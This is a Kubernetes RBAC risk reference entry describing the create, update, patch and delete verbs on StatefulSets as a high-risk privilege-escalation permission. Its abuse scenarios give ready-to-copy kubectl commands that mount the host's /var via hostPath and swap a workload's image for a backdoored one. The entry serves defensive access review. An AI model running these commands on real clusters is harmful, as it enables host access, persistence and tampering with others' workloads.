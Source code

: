 ```yaml
---
id: 1038
title: "Manage StatefulSets in a namespace"
description: "Allows creating, updating, or deleting StatefulSets within a specific namespace. This can be used to deploy stateful applications with potentially privileged settings, leading to potential privilege escalation, persistence, and tampering within that namespace."
category: Elevation of Privilege
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                                                        |
| ------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| ID            | 1038                                                                                                                         |
| Name          | Manage StatefulSets in a namespace                                                                                           |
| Risk Category | Elevation of Privilege                                                                                                       |
| Risk Level    | {{< risk High >}}                                                                                                            |
| Role Type     | Role                                                                                                                         |
| API Groups    | apps                                                                                                                         |
| Resources     | statefulsets                                                                                                                 |
| Verbs         | create, update, patch, delete                                                                                                |
| Tags          | {{< tag "Persistence" >}} {{< tag "PotentialPrivilegeEscalation" >}} {{< tag "Tampering" >}} {{< tag "WorkloadLifecycle" >}} |

## Description

Allows creating, updating, or deleting StatefulSets within a specific namespace. This can be used to deploy stateful applications with potentially privileged settings, leading to potential privilege escalation, persistence, and tampering within that namespace.

## Abuse Scenarios

1. Create a new StatefulSet with a hostPath mount in the namespace.

```bash {copy=true}
kubectl create -n <namespace> -f - <<EOF
apiVersion: apps/v1
kind: StatefulSet
metadata:
  name: hostpath-statefulset
spec:
  serviceName: "hostpath-service"
  replicas: 1
  selector:
    matchLabels:
      app: hostpath-sts
  template:
    metadata:
      labels:
        app: hostpath-sts
    spec:
      containers:
      - name: hostpath-container
        image: busybox
        command: ["/bin/sh", "-c", "sleep infinity"]
        volumeMounts:
        - mountPath: /host-var
          name: host-var
      volumes:
      - name: host-var
        hostPath:
          path: /var
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF

```

2. Update an existing StatefulSet's image to a malicious one.

```bash {copy=true}
kubectl set image statefulset/<statefulset-name> <container-name>=<malicious-image> -n <namespace>
# Example: kubectl set image statefulset/my-app-db db=attacker/db-backdoor -n production

```
